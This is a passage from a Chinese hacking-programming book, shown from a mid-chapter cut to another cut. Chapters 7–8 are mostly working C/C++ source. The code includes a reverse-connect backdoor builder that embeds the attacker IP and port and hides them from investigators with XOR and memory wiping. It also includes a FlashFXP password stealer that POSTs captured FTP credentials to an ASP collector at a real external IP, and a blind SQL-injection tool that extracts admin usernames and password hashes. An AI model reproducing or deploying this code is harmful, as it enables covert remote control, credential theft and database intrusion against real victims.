MessageBox(NULL, "恭喜你，生成成功！", "生成成功", 0);
```

上面代码中的 **FindMem** 函数是一个自定义函数，用来遍历内存、替换配置信息，此函数源码具体如下：

```cpp
// hmem 要查找的起始地址，len 要查找的内存大小
// from 要查找的字符串，to 要修改成的内容
BOOL FindMem(char *hmem, int len, char *from, char *to)
{
    char charf[100], chart[100], *charg;
    BOOL result = false;
    strcpy(charf, from);
    strcpy(chart, to);
    for (int i = 0; i < len; i++)
    {
        charg = hmem + i;
        // 内存中的数据和要查找的数据比较
        ...
    }
}
```

```c
if (strcmp(charg, charf) == 0)
{
    // 写入配置信息
    if (WriteProcessMemory(GetCurrentProcess(),
        (LPVOID)(hmem + i), charf,
        strlen(charf) + 1, NULL))
        result = true;
    break;
}
...
return result;
```


这样我们的配置程序就完成了，运行效果如图19所示。

图19

#### 7.2.2 附加信息法

附加信息法也是实现黑客程序配置功能的一种常用方法。从名字上就可以知道它和附加文件法有相似之处。附加文件法是把要生成的文件写入到配置生成程序的文件末尾，而这里所说的附加信息法，是要把黑客程序的配置信息，比如反向连接的IP、端口号等，写入到后门服务端文件的末尾。这样，后门服务端运行时就可以通过读取自身文件末尾的数据来得到用户提供的配置信息了。

从上面的描述我们可以清楚地知道，配置程序要完成的工作是生成后门服务端文件，同时在文件末尾写入配置信息；而后门服务端要完成的工作是读取文件末尾的配置信息，根据配置信息反向连接。

为了便于读取和写入配置信息，这里我们就定义一个结构用来存放后门程序的配置信息，结构定义如下：

```c
typedef struct _Info
{
    // 存放反连IP
    char ip[100];
    // 存放反连端口
    int port;
} Info;
```

接着我们就来实现这种方法吧！首先编写后门服务端程序。从上面的分析可知，它是要读取自身文件末尾的配置信息的，具体代码如下（源码在光盘“第七章\附加信息法\NoPipeDoor2”下）：

```c
// ……winsock 初始化操作
char szName[256];
// 得到自身进程文件名
GetModuleFileName(NULL, szName, 256);
// 以只读方式打开自身文件
HANDLE hFile = CreateFile(szName, GENERIC_READ, FILE_SHARE_READ,
    NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE)
{
    ...
}
```

```cpp
// 定位到配置信息处
if (SetFilePointer(hFile, -sizeof(Info), NULL, FILE_END) == -1)
{
    return 0;
}

Info mInfo = {0};
DWORD dwRead;
// 读取配置信息
if (!ReadFile(hFile, &mInfo, sizeof(Info), &dwRead, NULL))
{
    return 0;
}
// 关闭文件句柄
CloseHandle(hFile);

sockaddr_in sin;
sin.sin_family = AF_INET;
// 使用配置信息中的端口
sin.sin_port = htons(mInfo.port);
// 使用配置信息中的IP
sin.sin_addr.S_un.S_addr = inet_addr(mInfo.ip);
// 发起连接
if (connect(s, (sockaddr*)&sin, sizeof(sin)) == -1)
{
    printf(" connect error.\n");
    return 0;
}

// ...后门其他代码
```

后门服务端程序做如上修改就可以了，下面我们来编写后门的配置程序，用和前面相同的方法建立MFC工程，添加成员变量，添加“生成”按钮单击事件函数，并且把修改好的后门服务端以资源的形式导入到MFC工程中。

接着我们只需为“生成”按钮单击事件添加如下代码即可（源码在光盘“第七章\附加信息法\native”下）：

```cpp
void CNativeDlg::OnShengCheng()
{
    // 获得文本框内容
    UpdateData(TRUE);
    // 把资源导出成文件
    ResourceToFile("door.exe", MAKEINTRESOURCE(IDR_EXE1), "EXE");

    char Path[256];
    Info mInfo = {0};

    // 得到文本框中的端口
    mInfo.port = atoi(m_Port.GetBuffer(m_Port.GetLength()));
    // 得到文本框中的IP
    strcpy(mInfo.ip, m_Ip.GetBuffer(m_Ip.GetLength()));

    // 以只写方式打开后门服务端文件
    HANDLE hFile = CreateFile("door.exe", GENERIC_WRITE, FILE_SHARE_READ,
        NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
}
```

```cpp
if (hFile == INVALID_HANDLE_VALUE)
{
    MessageBox(NULL, "打开文件出错", "错误", 0);
    return;
}

// 移动文件指针到文件末尾
if (SetFilePointer(hFile, 0, NULL, FILE_END) == -1)
{
    MessageBox(NULL, "移动文件指针出错", "错误", 0);
    return;
}

DWORD dwWrite;
// 写入配置信息
if (!WriteFile(hFile, &mInfo, sizeof(Info), &dwWrite, NULL))
{
    MessageBox(NULL, "写入文件出错", "错误", 0);
    return;
}

// 关闭文件句柄
CloseHandle(hFile);
MessageBox(NULL, "恭喜你，生成文件成功！", "生成文件成功", 0);
```

这样，我们用附加信息法编写的配置程序也就完成了。现在我们已经学习了替换数据法和附加信息法，这两种方法各有千秋：数据替换法一般用于要修改的配置信息比较少的程序，而附加信息法一般用于有较多配置信息的程序。

### 7.3 配置信息的保护

- 前置知识：C/C++基础
- 难度：简单
- 编译环境：VC++6.0
- 测试环境：Windows XP

在上一小节中我们已经成功地编写了后门的配置程序，可以说我们的后门程序已经像模像样了。但是作为一个黑客程序，它还是存在很大“安全隐患”的。当然，这里所指的“安全隐患”不是传统意义上软件存在的安全隐患，而是指由于我们的配置信息没有加密而很容易被反黑人员利用，从而追踪到我们。

我们可以做这样一个测试：用 WinHex 打开配置好的后门程序，然后搜索配置时输入的IP地址，结果如图20所示。


图20

我们完全可以直接找到这个反向连接的 IP 地址，所以利用这样的后门程序控制服务器，很容易让管理员发现我们的踪迹，因此我们不得不考虑配置信息的安全问题。

#### 7.3.1 配置信息的文件保护

从上面的测试可知，我们的配置信息可以直接从后门程序文件中找到。既然我们的目的是保护配置信息，不让配置信息轻易地泄露，那么最好的方法当然是对配置信息进行加密处理。

这里头具体的步骤又是怎样的呢？我们首先要在服务端程序中对配置信息进行加密，然后才能把它写入到后门的服务端。而后门服务端程序在读取配置信息后要进行解密才能使用。

首先我们来确定加密算法，这里我选了一种比较简单的加密算法，对配置信息的每一字节进行异或运算之后再写入后门服务端文件。比如 62 异或 97 的结果是 95（这我们可以看作是一次对 62 加密的过程），那么 95 异或 97 的结果就是 62（这我们可以看作是一次对 62 解密的过程），在这个加密解密的过程中，用到的密钥就是 97。

利用上述加密算法，在后门配置程序中，对配置信息的每一个字节进行异或 97 运算，然后再把经过异或运算的配置信息写入后门服务端，而后门服务端得到加密后的配置信息后，必须对配置信息的每一个字节进行异或 97 解密运算，运算后的结果方能使用。

下面我们就来看一下具体代码，在上小节中我们讲了两种修改配置信息的方法，所以这里也分别给出这两种方法的代码。

- 数据替换法配置程序的主要加密代码：

```c
char mIp[256]={0};
// 得到未加密的配置信息
strcpy(mIp, m_Ip.GetBuffer(m_Ip.GetLength()));
// 进行异或加密
for (int i=0; i<strlen(mIp); i++)
{
    mIp[i]=mIp[i]^97;
}
// 写入配置信息
if (!FindMem(bmem, size, lp, mIp))
{
    MessageBox(NULL, "写入IP错误！", "错误", NULL);
    return;
}
```

下面是后门服务端程序的主要解密代码：

```c
// 得到IP字符串长度
int len=strlen(lp);
// 进行异或解密
for (int i=0; i<len; i++)
{
    lp[i]=lp[i]^97;
}
// 使用解密后的数据
sin.sin_addr.S_un.S_addr = inet_addr(lp);
```

- 附加信息法配置程序的主要加密代码：

```c
// 得到 ip 字符串的长度
int len = strlen(mInfo.ip);

// 进行加密运算
for (int i = 0; i < len; i++)
{
    mInfo.ip[i] = mInfo.ip[i] ^ 97;
}
```

下面是后门服务端程序的主要解密代码：

```c
// 得到字符串长度
int len = strlen(mInfo.ip);

// 解密
for (int i = 0; i < len; i++)
{
    mInfo.ip[i] = mInfo.ip[i] ^ 97;
}

// 使用解密后的数据
sin.sin_addr.S_un.S_addr = inet_addr(mInfo.ip);
```

添加如上代码之后，我们再用 WinHex 搜索后门服务端文件中的反向连接 IP……看看，已经搜索不到了，如图 21 所示。


#### 7.3.2 配置信息的内存保护

经过了上面的处理，直接在后门服务端文件中已经找不到敏感的配置信息了。那么是不是这样就安全了呢？假如你觉得是，那么我马上来否定你的看法。

我们配置一个后门程序，反连 IP 填“127.0.0.1”，端口 4500，生成之后运行这个程序。当然，本地要 nc 监听 4500 端口，然后我们用 WinHex 打开后门服务端进程的内存，搜索字符串“127.0.0.1”，结果如图 22 所示。


从图 22 中可以清楚地看到，我们的配置信息“127.0.0.1”在内存中还是可以找到的。那为什么文件中找不到而在内存中可以找到呢？我们先来回顾下后门服务端是如何利用配置信息的。首先是得到加密后的配置信息，然后是解密，最后是使用解密后的配置信息。从这个过程中可以看到，解密后的配置信息由于要被使用，那么它肯定是保存在一块内存空间中的，所以在内存中才能被搜索到。

那么怎样才能让解密后配置信息在内存中消失呢？既然解密后的配置信息是存放在一块内存空间中的，那么我们就可以人为地控制存放解密后配置信息的内存空间的开辟和释放。具体来说就是当要解密配置信息时就申请一段内存空间来存放解密后的配置信息，当解密后的配置信息使用完毕后，就释放这段内存空间。这样做之后，解密后的配置信息就会在内存中瞬间出现，瞬间消亡。要实现内存空间的申请和释放，我们可以用 malloc() 和 free() 函数，下面来具体了解下这两个函数。

malloc 函数的原型如下：

```c
void * malloc(size_t size)
```

这个函数用来在自身进程中申请一段内存空间，它只有一个参数 size，此参数指向了要申请的内存段的长度。如果函数调用成功，则返回申请的内存段的首地址指针；如果调用失败返回 NULL。free() 函数是用来释放一段由 malloc() 函数申请的内存空间的，此函数只有一个参数，它指向了要释放的内存段首地址的指针，由 malloc() 函数返回。此函数无返回值。

这里还需要注意的是：**malloc() 和 free() 必须成对出现！**

讲了那么多理论的东西，下面该来实践了！首先来完成“替换数据法”中后门服务端的配置信息内存保护，具体代码如下（源码在光盘“第七章\配置信息的内存保护\替换数据法”下）：

```c
// 得到IP长度
int len = strlen(p);

// 申请内存空间
char *mlp = (char*)malloc(len + 1);

// 把加密后的IP写入到内存空间
WriteProcessMemory(GetCurrentProcess(), (void*)mlp, p, len, NULL);

// 解密
for (int i = 0; i < len; i++) {
    mlp[i] = mlp[i] ^ 97;
}

sockaddr_in sin;
// 使用解密后的数据
sin.sin_addr.S_un.S_addr = inet_addr(mlp);

// 释放内存空间
free(mlp);
```

在上面代码中先是申请了一段内存空间，然后把加密的 IP 写入到这段内存空间，之后是解密并且把解密后的内容覆盖到这段内存空间中，当使用完解密后的数据后就释放掉这段内存空间。经过这样简单的处理，解密后的数据就会从内存中消失了。

最后我们再来看一下“附加信息法”中后门服务端的配置信息内存保护代码（源码在光盘“第七章\配置信息的内存保护\附加信息法”下）：

```cpp
// 申请内存空间
Info* mInfo=(Info*)malloc(sizeof(Info));
DWORD dwRead;

// 读取加密后的配置信息到申请的内存空间
if(!ReadFile(hFile,mInfo,sizeof(Info),&dwRead,NULL))
{
    return 0;
}

// 得到加密后的 IP 的长度
int len=strlen((char*)mInfo->ip);

// 解密
for(int i=0;i<len;i++)
{
    mInfo->ip[i]=mInfo->ip[i]^97;
}

// 关闭文件句柄
CloseHandle(hFile);

sockaddr_in sin;

// 使用解密后的数据
sin.sin_addr.S_un.S_addr = inet_addr(mInfo->ip);

// 释放内存空间
free(mInfo);
```

这部分代码和“替换数据法”部分代码十分相似，都是把加密后的数据存放到申请的内存空间中，然后解密使用，最后释放内存空间。只不过这里是用了“附加信息”，所以直接把附加信息读取后存放在申请的内存空间中了。

现在我们的后门程序在文件和内存中都有了配置信息的保护代码，可以说在使用过程中会“安全”很多。


## 流行的黑客编程技术

- 实现盗号程序的 HTTP 发信
- SDK 编写 SQL 注入工具
- 编写 U 盘感染程序

## 第八章 流行的黑客编程技术

### 8.1 实现盗号程序的 HTTP 发信

前置知识：C/C++ 基础、网络编程基础

难度：中

编译环境：VC++6.0

测试环境：Windows XP

随着时间的流逝，一个黑客技术也会在时间的长河中被慢慢淘汰，就像盗号程序的邮箱收信。几年前，盗号程序还都是利用邮箱来接收密码信息的，而如今大部分盗号程序都已经改用 ASP 或 PHP 网页收信了。

利用 HTTP 发信的优点是显而易见的，首先 HTTP 发信要比邮件发信快得多，再者就算被追踪到了发信地址，也不易得到后台管理密码。

但是 HTTP 数据包的结构并不是那么规范，在 VB 等一些软件中我们可以使用一些控件来发送 HTTP 数据包，但是在 VC 环境下通过 SDK 编程来实现还是有一定难度的，我们必须要对 HTTP 数据包的结构有一定的了解。

#### 8.1.1 HTTP 请求数据包的构造

> **编程加油站**  
> **什么是 HTTP 协议？**  
> HTTP 协议（Hypertext Transfer Protocol，超文本传输协议）是用于从 WWW 服务器传输超文本到本地浏览器的传送协议。它可以使浏览器更加高效，使网络传输减少。它不仅保证计算机正确快速地传输超文本文档，还确定传输文档中的哪一部分以及哪部分内容首先显示（如文本优先于图形）等。

HTTP 数据包分为请求数据包和应答数据包，请求数据包是由客户发送给服务器的请求报文；而应答数据包是服务器接受客户请求，处理相应请求后返回的应答报文。我们要实现的是 HTTP 发送信息，所以这里只需要了解 HTTP 请求数据包。

HTTP 请求数据包的发送方式又分为两种，一种是使用 GET 方式提交，另一种使用 POST 方式提交。GET 方式提交的数据包的数据长度不能超过 256 个字节，而 POST 方式提交的数据包没有长度的限制。

下面我们就来看看 HTTP 请求数据包的结构：

| 字段 | 说明 |
|---|---|
| 接收 (Accept) | 接收 Charset (Accept-Charset) |
| 数据编码类型 (Content-Type) | 接收编码 (Accept-Encoding) |
|  | 接收语言 (Accept-Language) |
|  | 认证 (Authorization) |
|  | 期望 (Expect) |
| 源 (From) |  |
| 主机 (Host) |  |
| 假如匹配 (If-Match) |  |
| 假如修改 (If-Modified-Since) |  |
| 假如不匹配 (If-None-Match) |  |
| 假如归类 (If-Range) |  |
| 假如不修改 (If-Unmodified-Since) |  |
| 最大转发量 (Max-Forwards) |  |
| 代理认证 (Proxy-Authorization) |  |
| 范围 (Range) |  |
| 提交者 (Referer) |  |
| TE |  |
| 用户代理 (User-Agent) |  |

上面所示的 HTTP 数据包结构是一份比较早的结构表，随着协议版本的更新，HTTP 数据包结构中域的数量可以进一步扩展，并且上面所示的结构中，并不是每一个域都必须包含在 HTTP 数据包中。

上面的陈述大家可能会觉得比较抽象，那么我们一起来看下面这个 GET 方式提交的数据包：

```http
GET /bbs/index.asp?username=nohack HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Host: www.nohack.cn
Connection: Keep-Alive
Cookie: ASPSESSIONIDQQTDTQDB=...
```

这是一个经过精简的 HTTP 数据包，假如是抓取 IE 发送的 HTTP 数据包，你会发现抓取到的数据包中的域要比上面所示的数据包中的域多。但是上面这个经过精简的数据包还是有效的。

在上面数据包中：

- `GET /bbs/index.asp?username=nohack HTTP/1.1` 表示数据以 GET 方式提交给 `/bbs/index.asp` 页面，数据内容是 `username=nohack`，HTTP 协议版本是 1.1。
- `Accept: */*` 表示接受所有数据。
- `Accept-Language: zh-cn` 表示接受的语言是中文。
- `Host: www.nohack.cn` 表示服务器域名。
- `Connection: Keep-Alive` 表示保持连接。
- `Cookie: ...` 表示 Cookie 值。

在上面的数据包中提交的数据是“username=nohack”，接着我们再来看一个提交相同数据的 POST 包：

```http
POST /bbs/index.asp HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Host: www.nohack.cn
Content-Length: 15
Connection: Keep-Alive
Cookie: ASPSESSIONIDSCDCQCTD=...

username=nohack
```

## 精通黑客编程

上面的这个 POST 方式提交的 HTTP 数据包也是经过精简的，其中有很多域是和 GET 提交的数据包相同的，这里我们就讲解下不同的几个域。

POST /bbs/index.asp HTTP/1.1 表示以 POST 方式把数据提交到 /bbs/index.asp 页面，协议版本是 1.1。在这里我们还可以发现，要提交的数据不包含在这一行中了，而是在 HTTP 报文头部里面。

Content-Type: application/x-www-form-urlencoded 表示数据部分的编码形式。

Content-Length: 15 表示数据部分的字节数。

两种 HTTP 请求数据包的结构基本上就是这样子的，还需要注意的是，每个域（每一行）都必须以一对回车符和换行符结束，而数据包头部以两对回车符和换行符结束。数据部分的结束不需要回车符和换行符。

讲了这么多理论的东西，总算是把 HTTP 请求数据包的结构给讲明白了，接下去我们就该实践了，通过编程来构造 HTTP 数据包。

其实要编程构造数据包也很简单，只需要调用 wsprintf 函数把信息整合到 HTTP 数据包中就可以了，这里我写了两个函数，分别是用来构造 POST 包和 GET 包的，具体代码如下（源码在光盘“第八章\HttpPacket”下）：

```c
// 构造 POST 包
void HttpPostPacket(char *packet, char *url, char *host, char *data)
{
    // 通过格式化字符串函数把信息整合到 HTTP 数据包中
    wsprintf(packet, "POST %s HTTP/1.1\r\n"
                    "Accept: */*\r\n"
                    "Content-Type: application/x-www-form-urlencoded\r\n"
                    "Host: %s\r\n"
                    "Content-Length: %d\r\n"
                    "Connection: Keep-Alive\r\n"
                    "Cookie: "
                    "ASPSESSIONIDSCDCOCTD=DCQJKBECOHEDIJUGNAPJGOKO\r\n\r\n%s",
                    url, host, strlen(data), data);
}

// 构造 GET 包
void HttpGetPacket(char *packet, char *url, char *host, char *data)
{
    // 通过格式化字符串函数把信息整合到 HTTP 数据包中
    wsprintf(packet, "GET %s?%s HTTP/1.1\r\n"
                    "Accept: */*\r\n"
                    "Accept-Language: zh-cn\r\n"
                    "Host: %s\r\n"
                    "Connection: Keep-Alive\r\n"
                    "Cookie: "
                    "ASPSESSIONIDQQTDTQDB=BKNHHKEDEDPADFEMCFAKAQ\r\n\r\n",
                    url, data, host);
}
```

那么这两个函数具体要怎么使用呢？从上面代码中可以知道这两个函数的参数是相同的。

- packet 参数指向了存放数据包的缓冲区指针；
- url 参数指向了要提交数据的页面；
- host 参数指向了服务器的域名；
- data 参数指向了要提交的数据。

在本实例中我们做如下调用：

```c
// 用于数据包数据输出
char packet[1024];
// 提交页面
char *url="/bbs/index.asp";
// 服务器域名
char *host="www.nohack.cn";
// 提交数据
char data[80]="username=nohack";
// 构造POST包
HttpPostPacket(packet, url, host, data);
printf("%s\n", packet);
// 构造GET包
HttpGetPacket(packet, url, host, data);
printf("%s\n", packet);
```

程序执行效果如图 1 所示。


图 1

#### 8.1.2 实现 HTTP 发送用户信息

到目前为止，我们已经学会了构造 HTTP 数据包，那么要通过 HTTP 发送信息也就简单了。这一小节，我们通过修改一个程序来为大家讲解如何通过 HTTP 发送用户名和用户密码等信息。

不知道大家是否还记得第四章中截获 FlashFXP 密码的程序，程序是把截获到的用户名和密码等信息通过文件的形式保存在磁盘中的。本小节我们就要修改这个程序，让程序把截获到的用户名和密码等信息通过 HTTP 发送到 ASP 页面。

既然要把信息提交到 ASP 页面，那么我们就先来了解下 ASP 页面是如何编写的，具体代码如下：

```asp
<%
testfile=server.mappath("info.txt")
msg=request("msg")
set fs=server.createobject("scripting.filesystemobject")
set thisfile=fs.opentextfile(testfile,8,true,0)
thisfile.writeline(msg)
...
%>
```

```asp
<%
thisFile.Close
set fs = nothing
%>
```

代码非常简单，就是把接收到的信息保存在 `info.txt` 文件中。我们只需要把这个 ASP 文件上传到一个支持 ASP 的 Web 空间就可以了。这里我上传的 Web 空间 IP 是 `61.191.55.102`。FlashFXP 密码截获程序要把得到的用户名和密码等信息提交到 ASP 页面，在此程序中有如下代码：

```c
// 得到用户名和密码等信息的过程
// 格式化数据
wsprintf(Data, "\r\n服务器IP：%s\r\n用户名：%s\r\n密码：%s\r\n",
         ServerIp, UserName, PassWord);
// 把用户名和密码等信息写入文件
DataToFile(Data);
```

上面代码中的 `DataToFile()` 函数是把得到的信息写入到文件，`Data` 变量中包含了得到的用户名和密码等信息，也就是说我们只需要把 `DataToFile()` 函数替换成通过 HTTP 发送用户名和密码到 ASP 页面的函数即可。此函数具体代码如下（源码在光盘“第八章\PostMessage”下）：

```c
int SendPassWord(char *password)
{
    WSADATA wsaData;
    WORD sockVersion = MAKEWORD(2,2);
    // 加载 winsock 库
    if (WSAStartup(sockVersion, &wsaData) != 0)
        return 0;

    // 创建套接字
    SOCKET sClient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sClient == INVALID_SOCKET)
    {
        printf("socket error\n");
        return 0;
    }

    // 在 sockaddr_in 结构中装入服务器端地址信息
    sockaddr_in servAddr;
    servAddr.sin_family = AF_INET;
    // 设置连接端口
    servAddr.sin_port = htons(80);
    // 服务器端 IP
    servAddr.sin_addr.S_un.S_addr = inet_addr("61.191.55.102");

    // 连接服务器端
    if (connect(sClient, (sockaddr*)&servAddr, sizeof(servAddr)) == SOCKET_ERROR)
    {
        printf("connect error\n");
        closesocket(sClient);
        return 0;
    }

    char packet[1024];
    // 提交的 URL
    char *url = "/bbs/Databackup/info.asp";
    // 服务器域名
    char *host = "bukecn.com";
    // 构造 POST 数据包
    HttpPostPacket(packet, url, host, password);
    // 发送数据
    send(sClient, packet, strlen(packet), 0);
    char revData[1024] = {0};
    // 接收数据
    int r = recv(sClient, revData, 1024, 0);
    // 关闭连接字
    closesocket(sClient);
    WSACleanup();
    return 0;
}
```

编译之后运行密码截获程序，然后用 FlashFXP 登录 FTP 空间，过几秒钟我们去查看 Web 空间中 `info.txt` 文件，如图2所示，信息已经截获了。


图2

### 8.2 SDK 编写 SQL 注入工具

- 前置知识：C/C++ 基础、网络编程基础、HTTP 数据包知识
- 难度：中
- 编译环境：VC++ 6.0
- 测试环境：Windows XP

目前主要的入侵手段还是以 SQL 注入为主，我想 SQL 注入漏洞还是会火上很长一段时间的，所以会编写一个 SQL 注入工具也是非常必要并且十分实用的。

通过上一小节的学习，我们已经学会了发送 HTTP 数据包，本小节将阐述的 SQL 注入工具也是以 HTTP 数据包的发送为基础的，所以在学完了上一小节之后，再来学习这一小节也就不会觉得吃力了。本小节我将带领大家编写一个 SQL 注入工具。

现在 SQL 注入漏洞层出不穷，所以本小节中编写的注入工具并不针对某一个流行的网站系统漏洞（因为当大家看到这里时，恐怕这个漏洞已经不流行了……），这其中的注入页面是我自己编写的，页面会放在光盘“第八章\sqlinject\sqlinjection”下，我们重要的是学会编程的方法。

下面先来看一下页面的情况，我们提交 `index.asp?id=1 and 1=1` 的页面，如图3所示。


再提交 `index.asp?id=1 and 1=2` 的页面，如图4所示。


图4

从图3、图4的页面中我们可以看出存在明显的 SQL 注入漏洞，下面再来了解下它的数据库（这里是 Access 的）中有哪些表、哪些字段，如图5所示。


图5

从图5中我们可以看到，用户名和密码是存放在 `admin` 表中的，用户名保存在 `admin` 字段，而密码保存在 `password` 字段。`admin` 字段保存的用户名都是以小写字母形式存在的，并且长度是不定的，而 `password` 字段保存的密码明显是经过 MD5 加密的，长度是16位。

得到了这些有用的信息之后，我们还必须了解 SQL 注入的原理。在图3和图4中，我们分别提交了 `id=1 and 1=1` 和 `id=1 and 1=2`。首先 `id=1` 的数据在数据库中肯定是存在的，那么 `id=1` 肯定是真的，`1=1` 也肯定是真的。那么 `id=1 and 1=1` 就可以看作是 `TRUE AND TRUE`，这样的结果肯定是真的，所以返回了一个正常的页面；而 `1=2` 肯定是假的，那么 `id=1 and 1=2` 就可以看作是 `TRUE AND FALSE`，那么它的值肯定是假的，这样我们就看到了一个出错的页面。

因此在实际猜解用户名和密码的过程中，我们就可以把 `id=1 and 1=1` 中的 `1=1` 换成数据库查询语句。假如在数据库中查得到内容就返回真，这时候就是 `TRUE AND TRUE` 的情况，页面就正常显示；假如在数据库中找不到内容就返回假，那么就是 `TRUE AND FALSE` 的情况，页面就会出现错误提示。

我们举个例子来说明：比如提交 `id=1 and 1=(select count(*) from admin where id=1)`，假如在数据库的 `admin` 表中不存在 `id=1` 的数据，那么 `1=(select count(*) from admin where id=1)` 将返回假，我们将看到错误页面；假如存在 `id=1` 的数据，那么 `1=(select count(*) from admin where id=1)` 将返回真，我们就看到了正常页面。

有了上面这些信息和知识之后，我们就可以着手编写 SQL 注入程序了。从上面的分析可以知道，猜解用户名和密码等信息的过程，其实就是根据提交 SQL 注入语句之后的返回页面情况来判断的，返回正常页面则表示猜解正确，返回出错页面则表示猜解错误。所以对于我们的 SQL 注入工具来说，程序要构造 SQL 注入语句，并且把它以 HTTP 数据包形式发送给服务器，然后根据返回的数据（是正常页面还是出错页面）来判断猜解是否正确。那么我们该怎么来猜解用户名和密码呢？其步骤如图6所示。


图6

从图6中可以知道，首先程序要猜解最小的用户名 ID，我们可以构造如下 SQL 注入语句：

```text
id=1 and 1=(select count(*) from admin where id=最小ID)
```

上面语句中的“最小ID”可以从1开始依次递增，当返回正常页面时就表示猜解到最小的用户名 ID 了。

这一步完成之后，下一步就是猜解最小 ID 所指的用户名的长度，我们可以提交如下 SQL 语句：

```text
id=1 and 1=(Select count(*) from [admin] where id=最小ID and len(admin)=位数)
```

上面语句中“位数”可以从1开始依次递增，直到猜解到用户名长度为止。当得到用户名长度之后，接下去就要猜解每一位用户名了。由于用户名都是以小写字母的形式存在的，所以它的每一位都是 ASCII 码值，都是在97到122之间，我们可以构造如下注入语句：

```text
id=1 and 1=(Select count(*) from [admin] where asc(mid(cstr(admin),第几位,1))=asc码值 and id=最小ID)
```

在上面的注入语句中，“asc码值”可以从97开始依次递增，“第几位”也要从1开始，猜解完一位后增加1，直到猜解完用户名的全部位数。

用户名猜解完之后，接下去就是猜解密码。前面已经讲过，密码是 MD5 十六位加密的，所以密码是由数字和小写字母组成的，其 ASCII 码分别在48到57和97到122之间。在猜解密码时，为了减少猜解次数，首先要判断每一位密码的 ASCII 码在48到57之间，还是97到122之间。我们可以使用如下注入语句：

```text
id=1 and 1=(Select count(*) from [admin] where asc(mid(cstr(password),第几位,1)) between 48 and 57 and id=最小ID)
```

假如提交上面的注入语句返回正常页面，则说明猜解的这位密码是数字；如果返回错误页面，则说明猜解的这位密码是小写字母。当知道猜解的 ASCII 码范围后，就可以构造如下的注入语句进行进一步猜解：

```text
id=1 and 1=(Select count(*) from [admin] where asc(mid(cstr(password),第几位,1))=asc码值 and id=最小ID)
```

假如某一位密码确定为数字，那么“asc码值”就从48开始依次递增；假如是小写字母，则“asc码值”从97开始依次递增。

对于注入语句的构造还有一点必须要注意，注入语句必须要经过 URL 编码，简单地说就是要把空格替换成 `%20`。我们可以用如下代码进行编码（以猜解最小的用户名 ID 的注入语句为例）：

```c
char k[10] = "%20";
wsprintf(data, "id=1%csand%cs1=(select%scount(*)%sfrom%sadmin%swhere%sid=%d)",
         k, k, k, k, k, k, k, id);
```

当构造好注入语句之后，程序还需要把它封装到 HTTP 数据包中（就像上一小节把截获的用户名和密码等信息封装到 HTTP 数据包中一样），然后向要注入的网站发送数据包。最后根据网站返回的数据，判断是正常页面还是错误页面，从而确定猜解是否正确。

发送数据和比较返回数据的代码我已经封装成函数，代码如下：

```c
SOCKET sClient;
BOOL RetCmp(char *revData, int ret)
{
    // 判断返回的是正常页面还是错误页面
    // 页面返回正确时会出现的特定字符串
    char *tocmp = "http://www.nohack.cn";
    char *Data;

    for (int i = 0; i < ret; i++)
    {
        // 指针依次递加
        Data = (char*)&revData[i];
        // 和特定字符串比较
        if (strncmp(Data, tocmp, strlen(tocmp)) == 0)
            return TRUE;
    }

    return FALSE;
}
```

```c
// 发送数据，同时调用 RetCmp 函数判断返回页面情况
BOOL SendData(char *data)
{
    int ret;
    char revData[1024];
    // 发送数据
    send(sClient, data, strlen(data), 0);
    // 接收数据
    ret = recv(sClient, revData, 1024, 0);
    if (ret > 0)
    {
        // 判断页面返回情况
        if (RetCmp(revData, ret))
        {
            return TRUE;
        }
        return FALSE;
    }
}
```

有了上面这两个函数，在 `main` 函数中的代码就会简化很多，下面我们来看看具体代码（源码在光盘“第八章\sqlinject”下）：

```c
int main(int argc, char* argv[])
{
    WSADATA wsaData;
    WORD sockVersion = MAKEWORD(2, 2);
    // 加载 winsock 库
    if (WSAStartup(sockVersion, &wsaData) != 0)
        return 0;

    // 创建套接字
    sClient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sClient == INVALID_SOCKET)
    {
        printf("socket error\n");
        return 0;
    }

    // 在 sockaddr_in 结构中装入服务器端地址信息
    sockaddr_in servAddr;
    servAddr.sin_family = AF_INET;
    servAddr.sin_port = htons(80);
    servAddr.sin_addr.S_un.S_addr = inet_addr("61.191.55.102");

    // 连接服务器端
    if (connect(sClient, (sockaddr*)&servAddr, sizeof(servAddr)) == SOCKET_ERROR)
    {
        printf("connect error\n");
        closesocket(sClient);
        return 0;
    }

    int ret;
    char revData[1024];
    char packet[1024];
    char *url = "/bbs/Databackup/sql/index.asp";
    char *host = "bukecn.com";
    // 替换空格用
    char k[10] = "%20";
    // 存放注入语句
    char data[512];
    int i = 1;
    int id = 1;
    int l;
    int asc;
    char out[2] = {0};

    printf("正在猜解用户ID......\n");
    printf("用户ID：");
    while (1)
    {
        // 构造猜解最小的用户ID的注入语句
        wsprintf(data, "id=1%sand%s1=(select%scount(*)%sfrom%sadmin%swhere%sid=%d)",
                 k, k, k, k, k, k, k, id);

        // 构造 Post 包
        HttpPostPacket(packet, url, host, data);
        // 发送数据并且判断页面返回情况
        if (SendData(packet))
        {
            printf("%d\n", id);
            break;
        }
        id = id + 1;
    }

    printf("正在猜解用户名长度......\n");
    while (1)
    {
        // 构造猜解用户名长度的 SQL 注入语句
        wsprintf(data, "id=1%sand%s1=(Select%scount(*)%sfrom%sadmin%swhere%sid=%d%sand%slen(admin)=%d)",
                 k, k, k, k, k, k, k, id, k, k, l);

        // 构造 Post 包
        HttpPostPacket(packet, url, host, data);
        // 发送数据并且判断页面返回情况
        if (SendData(packet))
        {
            printf("用户名长度：%d\n", l);
            break;
        }
    }

    i = i + 1;
    printf("\n正在猜解用户名......\n");
    printf("用户名:\n");
    for (i = 0; i < l; i++)
    {
        asc = 97;
        while (1)
        {
            // 猜解用户名的 SQL 语句
            wsprintf(data,
                "id=1%sand%s1=(Select%scount(*)%sfrom%s[admin]%s"
                "where%sasc(mid(cstr(admin),%d,1))=%d%sand%sid=%d)",
                k, k, k, k, k, k, k, i + 1, asc, k, k, id);

            HttpPostPacket(packet, url, host, data);
            if (SendData(packet))
            {
                out[0] = asc;
                printf("%s", out);
                break;
            }
            asc = asc + 1;
        }
    }

    printf("\n正在猜解密码......\n");
    printf("密码:\n");
    for (i = 0; i < 16; i++)
    {
